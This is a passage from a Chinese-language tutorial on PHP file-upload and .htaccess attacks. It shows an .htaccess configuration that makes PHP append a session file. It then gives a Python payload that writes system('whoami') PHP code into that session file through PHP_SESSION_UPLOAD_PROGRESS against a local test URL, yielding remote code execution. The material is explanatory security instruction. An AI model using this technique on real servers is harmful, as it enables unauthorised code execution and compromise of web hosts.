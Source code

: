 可以看到这种图像格式是以`0x00`开头的，那么便可以此方式绕过对文件格式的检测



### 3. session 文件包含

若过滤了`<`、数字、`:`等，此时便不能使用`php://filter`或者UTF编码的方式绕过了；可尝试利用.htaccess设置包含指定的文件。例如对于session文件，可通过包含上传文件产生的临时session进行RCE

查看配置文件，发现大部分session相关的配置都是可以通过.htaccess修改的：

![img](assets/t0122f5df0960075c53.png)

那么我们可以在不知道session存储路径的情况下，通过`session.save_path`指定存储路径，并且可以将`session.upload_progress.cleanup`设置为off，这样便可无需条件竞争来将代码写到session文件中，从而包含rce；编辑.htaccess：



```
php_value auto_append_file "/tmp/sess_gtfly"
php_value session.save_path "/tmp"
php_flag session.upload_progress.cleanup off
```

由于关掉了cleanup，所以不用竞争了

payload

```python
import requests

url='http://127.0.0.1/test.php'

headers={
    "Cookie":'PHPSESSID=gtfly'
}

files={
    "upload":''
}

data={
    "PHP_SESSION_UPLOAD_PROGRESS": '''<?php echo system('whoami'); ?>'''
     }

```